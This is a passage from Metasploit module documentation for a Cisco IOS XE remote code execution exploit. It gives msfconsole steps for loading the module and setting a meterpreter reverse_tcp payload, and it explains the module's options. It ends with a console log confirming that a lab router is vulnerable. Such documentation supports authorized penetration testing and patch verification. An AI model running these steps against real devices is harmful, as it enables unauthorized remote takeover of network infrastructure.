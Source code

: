     Router#copy running-config startup-config
    ```
  * You should now be able to access the WebUI via https://TARGET_IP_ADDRESS/webui and login with admin:qwerty

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/cisco_ios_xe_rce`
3. `set RHOST <TARGET_IP_ADDRESS>`
4. `set target 0`
5. `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp`
6. `check`
7. `exploit`

## Options

### CISCO_VRF_NAME
We allow a user to specify the VRF name to route traffic for the payloads network transport. The default of
'global' should work, but exposing this as an option will allow for usage in more complex network setups.
A user could leverage the auxiliary module auxiliary/admin/http/cisco_ios_xe_cli_exec_cve_2023_20198 to
inspect a devices configuration to see an appropriate VRF to use.

### CISCO_CMD_TIMEOUT
We may need to try and execute a command a second time if it fails the first time. This option is the maximum
number of seconds to keep trying.

## Scenarios
To support a broad set of available payloads, we support both a Linux target and a Unix Target (IOS XE is Linux based).
This allows for native Linux payloads to be used, but also payloads like Python meterpreter or a Bash shell.

### Linux Command (IOS XE 17.3.2)

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set RHOST 192.168.86.58
RHOST => 192.168.86.58
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
[+] 192.168.86.58:443 - The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
msf6 exploit(linux/misc/cisco_ios_xe_rce) > show options

Module options (exploit/linux/misc/cisco_ios_xe_rce):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   CISCO_CMD_TIMEOUT  30               yes       The maximum timeout (in seconds) to wait when trying to execute a command.
   CISCO_VRF_NAME     global           yes       The virtual routing and forwarding (vrf) name to use. Both 'fwd' or 'global' have been tested to work.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS             192.168.86.58    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT              443              yes       The target port (TCP)
```